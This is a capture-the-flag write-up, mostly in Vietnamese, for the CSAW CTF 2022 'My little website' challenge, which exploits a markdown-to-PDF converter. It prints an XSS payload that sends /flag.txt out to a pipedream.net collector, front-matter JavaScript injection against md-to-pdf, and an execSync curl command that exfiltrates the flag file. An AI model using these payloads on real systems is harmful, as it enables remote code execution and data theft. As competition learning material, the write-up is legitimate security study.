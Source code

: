 # **CSAW CTF 2022**
## **My little website** 
___
### **Description:**

I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)...
```
http://web.chal.csaw.io:5013
```
Author: Anish Agrawal (@roborobo#5025)

Hint: The flag is located at /flag.txt. AWS is completely out of scope.
___

### **TL;DR**

Đã có bài tương tự như bài này từng release. Các bạn có thể xem thêm tại đây:

https://ctftime.org/task/21497

### **Recon:**

Input vào 1 đoạn MD Code và chương trình sẽ render sang pdf

![1.png](https://github.com/L4P1Nz/CSAW-2022/blob/main/My%20little%20website/1.png)

Mình nghĩ ngay đến SSTI hoặc XSS. Và thật sự là nó có thể XSS thật, nhưng mà XSS không phải là key của bài này.

Payload XSS:

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET","/flag.txt");
xhr.onload = function(){
    var c = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET","https://eofjinqeit74ydj.m.pipedream.net?c=" + c);
    exfil.send();
};
xhr.send();
</script>
```
Result:

![2.png](https://github.com/L4P1Nz/CSAW-2022/blob/main/My%20little%20website/2.png)

Nguyên nhân là vì flag.txt nằm ở root. (Mình lại hiểu sai ý của Hint)

### **Think...**

Sau khi search và thử vài POC thì mình tìm được cái issue này :

https://github.com/simonhaenisch/md-to-pdf/issues/99 

Ném cái payload này vào để xem thế nào

```
---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
```

Result:

![3.png](https://github.com/L4P1Nz/CSAW-2022/blob/main/My%20little%20website/3.png)

Có vẻ là đi đúng hướng của bài rồi xDD
### **Exploit:**

Tìm vài bài write up ctf về cái vuln này.

Sau cùng thì mình đã lấy được flag với cái payload này:

```
---js
((require("child_process")).execSync("curl https://eofjinqeit74ydj.m.pipedream.net/?c=$(cat /flag.txt | base64)"))
---RCE
```


![4.png](https://github.com/L4P1Nz/CSAW-2022/blob/main/My%20little%20website/4.png)




